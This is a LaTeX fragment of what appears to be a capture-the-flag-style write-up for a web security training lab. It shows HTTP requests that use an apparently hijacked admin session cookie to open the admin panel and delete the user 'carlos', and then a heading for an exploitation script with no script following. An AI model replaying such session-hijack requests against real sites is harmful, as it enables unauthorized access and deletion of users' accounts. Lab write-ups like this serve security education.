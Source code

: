 \documentclass[11pt,letterpaper]{article}
\begin{document}
\begin{lstlisting}[language=http,caption={Step 6: Access admin panel and delete user}]
-- Access admin panel --
GET /admin HTTP/1.1
Host: 0aXXXXXXXX.web-security-academy.net
Cookie: session=adminSession789

-- Response shows user management --
HTTP/1.1 200 OK

<h1>Admin Panel</h1>
<div>
    carlos - <a href="/admin/delete?username=carlos">Delete</a>
</div>
<div>
    wiener - <a href="/admin/delete?username=wiener">Delete</a>
</div>

-- Delete carlos --
GET /admin/delete?username=carlos HTTP/1.1
Cookie: session=adminSession789

-- Response --
HTTP/1.1 302 Found
Location: /admin

-- Lab solved! --
\end{lstlisting}

\section{Automated Exploitation}

\subsection{Complete Python Exploitation Script}
\end{document}

